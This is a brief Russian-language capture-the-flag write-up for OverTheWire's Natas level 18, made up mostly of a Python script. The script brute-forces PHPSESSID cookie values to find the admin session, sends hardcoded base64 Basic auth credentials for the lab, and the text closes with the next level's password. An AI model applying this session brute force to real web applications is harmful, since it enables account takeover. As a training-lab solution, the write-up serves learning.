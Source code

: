 задача свелась к перебору всех возможных сессий и поиск нужной, админской
по сравнению с предыдущими 4-5 тасками эта детский лепет
```python
from requests import get

url = "http://natas18.natas.labs.overthewire.org"

#будущие параметры которые будем передавать в запросе
params = {
	"debug" : 'true'
}

#заголовок авторизации
header = {
	"Authorization" : "Basic bmF0YXMxODo2T0cxUGJLZFZqeUJscHhnRDRERGJSRzZaTGxDR2dDSg==" #natas18 creds
}

#перебираем номер сессии
#одна из них - админская
for i in range(0, 642):
	
	#сам запрос
	resp = get(url, params=params, headers=header,
		cookies={'PHPSESSID':str(i)}  #подсовываем куку с нужной айдишкой
		) 
	print(len(resp.content), i)

	#если есть строка которая подразумивает что мы угадали - стоп
	if 'Username: natas19' in resp.text:
		print(resp.text)
		2/0
```

tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
